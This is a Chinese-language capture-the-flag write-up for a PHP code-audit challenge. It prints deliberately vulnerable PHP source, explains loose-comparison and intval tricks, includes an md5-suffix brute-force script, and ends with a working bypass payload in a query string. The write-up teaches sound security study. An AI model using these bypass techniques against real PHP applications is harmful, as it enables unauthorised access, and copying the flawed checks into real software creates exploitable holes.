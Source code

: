 # 题目：easyphp

[![p90MwPe.md.png](https://s1.ax1x.com/2023/05/08/p90MwPe.md.png)](https://imgse.com/i/p90MwPe)

打开网页，发现是代码审计类问题，代码如下：

```php
 <?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?> 
```

## 代码分析

1. `intval(var)`：将`var`转化为数字（如果需要转化的话），提取其整数部分为返回值；

2. `substr(str, start, length)`：提取子字符串，从`start`索引开始，长度为`length`；

3. `json_decode(json)`：将`json`编码的字符串转化为PHP值，默认转化为`object`，如果设置第二个参数为`true`则转化`array`；

4. `is_numberic(var)`：检查`var`是否为数字或者数字字符串，是返回真，否则返回假；

5. `array_search(val, array)`：在数组中寻找键值`val`，找到则返回键值为`val`的键名；

   `array_search()`采用的是`==`比较，我们可以通过设置`array`的键值为`0`或空数组（`字符串==0`|`==array()`为真）绕过检查；

## 解题过程

+ 通过分析PHP代码，我们的任务是需要构造恰当的`a,b,c`使得`$key1, $key2=1`，这样就会输出flag；

+ `a`的限制是整数部分大于6 000 000，且字符串长度小于3；

  显然这两个条件矛盾，低版本的PHP中`intval`可以解析科学计数法，我们可以采用科学计数法绕过；

+ `b`的限制是`md5`编码后的后6位等于"8b184b"；

+ `c`要求是json编码的数据，

  1. 键名为`m`的键值不能为数字，且大于2022；
  2. 键名为`n`的键值为有2个元素的数组，且它的第一个元素也是数组类型；
  3. 且它的元素中全部都是字符串`"DGGJ"`，使用`===`则要求必须类型是`string`；

  显然条件1的两个方面矛盾，利用PHP弱类型比较中“若数字与字符串比较，则会从头截取字符串，到不为数字字符的内容来与数字比较”；

  显然条件2, 3矛盾，所以我们需要绕过`array_search()`的检查；

1. 构造`a`

   ```
   a=1e9 #1e9=1 000 000 000 >> 6 000 000
   ```

2. 构造`b`

   采用脚本碰撞，找到一个符合要求的值

   ```php
   <?php
       $b = 0;
       while(1)
       {
           if('8b184b' === substr(md5($b), -6, 6))
           {
               echo $b;
               break;
           }
           $b++;
       }
   ?>
   ```

   ```
   b=53724
   ```

3. 构造`c`

   ```php
   <?php
       $c = array("m"=>2023, "n"=>array(array(), 0));
       $c = json_encode($c);
       echo $c;
   ?>
   ```

   ```
   c={"m":"2023c","n":[[],0]}
   ```

+ 综上，一个可行的payload如下：

  ```
  ?a=1e9&b=53724&c={"m":"2023c","n":[[],0]}
  ```

  [![p903ofU.md.png](https://s1.ax1x.com/2023/05/08/p903ofU.md.png)](https://imgse.com/i/p903ofU)

  成功得到flag。

